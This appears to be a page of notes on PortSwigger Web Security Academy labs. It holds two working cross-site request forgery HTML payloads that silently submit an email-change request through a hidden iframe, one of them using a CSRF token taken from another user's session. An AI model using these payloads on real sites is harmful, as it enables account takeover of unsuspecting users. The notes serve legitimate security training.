 - - - - - - - - - - - - - - - - - - - - - - - -

**CSRF where token is not tied to user session**
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-ac941f081e38bc8480279ef400d5002f.web-security-academy.net/my-account/change-email" method="post" id="csrf-form" target="csrf-iframe">
            <!-- CSRF Attack Here for changing email -->
            <input type="hidden" name="email" value="test5@test.ca">
            <!-- Setting the CSRF Value Here; using another user's session -->
            <input type="hidden" name="csrf" value="zXqP4oMlBXDX16q4Qb5MgFawPZXaK4bW">
        </form>
        <!-- Commented Out the Javascript Below -->
        <!-- <script>document.getElementById("csrf-form").submit()</script> -->
    </body>
</html>

- - - - - - - - - - - - - - - - - - - - - - - -

**Basic CSRF: No Checks**
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-acee1f521e65f40d80e4b992006a0005.web-security-academy.net/my-account/change-email/" method="get" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>
        <!-- Commented Out the Javascript Below -->
        <!-- <script>document.getElementById("csrf-form").submit()</script> -->
    </body>
</html>
